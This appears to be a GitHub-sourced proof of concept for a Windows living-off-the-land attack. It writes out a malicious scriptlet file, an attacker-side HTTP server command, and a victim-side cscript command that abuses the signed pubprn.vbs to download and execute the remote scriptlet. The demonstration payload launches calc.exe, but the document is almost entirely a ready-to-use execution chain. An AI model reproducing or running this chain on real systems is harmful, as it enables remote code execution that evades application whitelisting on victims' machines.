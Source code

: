 # Attacker server
- Create malicious file (m.sct):
```xml
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
- Run listenning server:
```python
python3 -m http.server 80
```

# Victim machine
- Open cmd.exe and run the following command
```cmd
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.213.136/m.sct
```
